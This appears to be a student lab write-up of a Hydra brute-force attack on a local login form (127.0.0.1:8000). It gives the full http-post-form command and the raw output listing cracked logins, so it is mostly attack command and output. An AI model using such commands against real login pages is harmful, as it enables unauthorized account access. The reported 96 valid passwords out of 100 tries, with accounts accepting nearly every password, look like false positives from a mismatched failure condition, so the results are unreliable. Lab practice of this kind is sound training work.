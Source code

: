 # Hydra Attack

### Command
I used following command to attack the webpage: 
hydra -L user.txt -P password.txt 127.0.0.1 -s 8000 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect".
There is that one part, that made it possible for me to do it and it was: -s 8000.
I was using first 127.0.0.1:8000, but it did not work for me.

### Time
Time was about 10 seconds.

### Output of the Hydra Attack

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-18 13:50:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 100 login tries (l:10/p:10), ~7 tries per task
[DATA] attacking http-post-form://127.0.0.1:8000/login:username=^USER^&password=^PASS^:F=incorrect
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: doh@springfieldpower.net   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: snacks4scooby
[8000][http-post-form] host: 127.0.0.1   login: doh@springfieldpower.net   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: doh@springfieldpower.net   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: doh@springfieldpower.net   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: doh@springfieldpower.net   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: doh@springfieldpower.net   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: whatsupdoc@looneytunes.tv   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: snacks4scooby
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: darkknight@gothamwatch.org   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: chimichanga@fourthwall.com   password: snacks4scooby
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: snacks4scooby
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: iamyourfather@deathstar.gov   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: snacks4scooby
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: elementary@221bbaker.uk   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: snacks4scooby
[8000][http-post-form] host: 127.0.0.1   login: genius@starkindustries.com   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: snacks4scooby
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: whysoserious@gothamchaos.net   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: snacks4scooby
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: carrots123
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: iamvengeance
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: darkside42
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: donuts4life
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: breaking4thwall
[8000][http-post-form] host: 127.0.0.1   login: quackattack@duckburg.org   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: deduction221B
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: iamironman
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: chaos123!
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: mickeyisjealous
[8000][http-post-form] host: 127.0.0.1   login: ruhroh@mysterymachine.com   password: snacks4scooby
1 of 1 target successfully completed, 96 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-18 13:50:51

